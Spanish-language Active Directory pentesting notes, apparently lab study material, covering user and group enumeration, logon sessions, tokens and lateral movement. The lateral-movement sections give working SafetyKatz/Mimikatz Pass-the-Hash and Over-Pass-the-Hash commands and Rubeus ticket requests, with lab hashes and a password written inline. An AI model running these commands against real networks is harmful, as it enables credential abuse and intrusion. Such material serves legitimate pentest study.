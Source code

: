 ## Tabla de contenido

- [Enumeración](#Enumeración).
- *[LogonSesssion](#LogonSesssion)*.
- [Token](#Token).
- [Movimiento_lateral](#Movimiento_lateral).
  - [runas](#runas).
  - *[Pass-the-Hash](#Pass-the-Hash)*.
  - *[Over-Pass-the-Hash](#Over-Pass-the-Hash)*.

# Enumeración
### Listar usuarios locales:
```powershell
Get-LocalUser
Get-WmiObject -Class win32_userprofile | select localpath, SID
```

### Listar usuarios del dominio:
```powershell
Get-ADUser -Filter *
Get-ADUser -Filter * -Server 192.168.1.155
```

### Listar grupos locales
```powershell
Get-LocalGroup
```

### Listar grupos del dominio
```powershell
Get-ADGroup -Filter *
Get-ADGroup -Filter * -Server 192.168.1.155
```
# *LogonSesssion*

Se crea cuando hay una autenticación sea de manera remota o local. Las credenciales siempre se asignan a una *logon session*.

![Ex00](https://github.com/0x04e1/Notas-Directorio-Activo/blob/main/Pic/1.png)

Hay dos tipos:

**(1) Interactivas**: las credenciales se almacenan en memoria (lsass.exe) para *Single Sign-On*.

**(2) No interactivas**: no se almacenan en memoria, solo se envían en la red. Por defecto **no se guardan en memoria**.
Ejmplo:

![Ex01](https://github.com/0x04e1/Notas-Directorio-Activo/blob/main/Pic/2.png)

Nota: aunque el usuario pepe puede consumir el recurso con permisos de lectura y escritura, si estas (credenciales) no se envían de manera explícita para consumir un recurso a través de SSO, no se podrá consumir el recurso.

# *Token*

Estructura de datos con información de seguridad de un usuario, gupos, identificar, etc.

![Ex02](https://github.com/0x04e1/Notas-Directorio-Activo/blob/main/Pic/3.png)

Con ello el sistema operativo, aplica controles de acceso a través de privilegios. Todos los objetos del sistema operativo Windows cuentan con descriptores de seguridad, allí está la lista **DACL** y en ella se especifica quién tiene acceso a los objetos.

![Ex03](https://github.com/0x04e1/Notas-Directorio-Activo/blob/main/Pic/4.png)

# Movimiento_lateral

## *runas*

Con credenciales válidas, es posible crear un proceso actuando como ese usuario.
- Aplica de manera local:
```powershell
runas.exe /user:ffff /savecred cmd.exe
```
- Aplica de manera remota:
```powershell
runas /noprofile /netonly /user:domain\Administrator powershell.exe
```

## *Pass-the-Hash*
1. Se crea una nueva sesión.
2. Se duplica el *token* original.
3. Se referencia la nueva sesión.
4. Se pueaplica al hilo principal o crear nuevo proceso y aplicarlo.

```powershell
C:\AD\Tools\SafetyKatz.exe "sekurlsa::pth /user:juan /domain:cs.org /ntlm:709d4242de780b1f34c19c78ad1630fd /run:powershell.exe" "exit"
```

Al contar con los paquetes de autenticación *msv1_0* y *kerberos*, es posible acceder el consumo de los servicios a través de NTLM y Kerberos (si el servidor lo soporta).
```powershell
msv1_0   - data copy @ 0000013DED28C5E0 : OK !
kerberos - data copy @ 0000013DECC9C6C8
```
## *Over-Pass-the-Hash*
1. Se crea una nueva sesión.
2. Se actualizan *hash* y/o llaves de la sesión.
3. Se copia el *token* original.
4. Similar a **runas /netonly** pero sin credenciales.

La técnica de *Over Pass the Hash* implica la generación de un nuevo ticket de Kerberos y la importación de este ticket en la memoria del sistema, lo cual generalmente requiere privilegios de administrador.
```powershell
C:\AD\Tools\SafetyKatz.exe "sekurlsa::pth /user:juan /domain:cs.org /ntlm:709d4242de780b1f34c19c78ad1630fd /ptt"
```

En este caso, se agrega el parámetro **/ptt** al comando de *Pass the Hash* anterior. Esto indica a Mimikatz que importe el ticket de Kerberos generado en la memoria del sistema para establecer una sesión de autenticación en lugar de solo realizar un *Pass the Hash*. Esto permite realizar la técnica de *Over Pass the Hash* y obtener acceso a otros recursos o sistemas dentro de la red.

## Pass-the-Ticket

El parámetro "asktgt" en Rubeus, se utiliza para solicitar un Ticket Granting Ticket (TGT) utilizando las credenciales de un usuario especificado. Y es psoible realizarlo de manera remota:
```powershell
C:\AD\Tools\Rubeus.exe asktgt /user:cs.org\juan /password:Colombia.2023. /dc:192.168.1.155
# Para importar el *ticket*:
C:\AD\Tools\Rubeus.exe ptt /ticket:doIFDjCCBQqgAw...
```

## ASK-TGT/TGS

Se genera tráfico legítimo Kerberos para solicitar: AS-REQ TGS-REQ. ¡No necesita ser administrador!
Para solicitar el TGT concociendo el *Hash* del usuario: 
```powershell
C:\AD\Tools\Rubeus.exe asktgt /user:juan /domain:cs.org /rc4:709d4242de780b1f34c19c78ad1630fd /dc:192.168.1.155 /ptt
```
